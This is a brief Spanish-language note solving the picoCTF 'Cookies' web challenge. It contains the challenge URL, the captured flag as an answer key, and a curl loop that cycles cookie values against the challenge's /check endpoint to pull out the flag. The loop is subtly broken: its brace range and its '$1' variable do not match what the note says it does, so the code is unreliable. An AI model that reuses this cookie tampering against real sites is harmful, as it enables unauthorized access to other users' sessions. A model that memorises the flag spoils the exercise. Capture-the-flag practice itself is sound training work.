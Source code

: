 #Reto 
## Descripcion del reto
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)
## Solucion
`picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}`
con cookie editor hasta el numero 18
![[Pasted image 20250922111807.png]]
## Notas
for i in 1{1..30}; do curl -s http://mercury.picoctf.net:54219/check -H  "Cookie: name=$1 "; done | grep pico
y con este te lo da directo
## Referencias
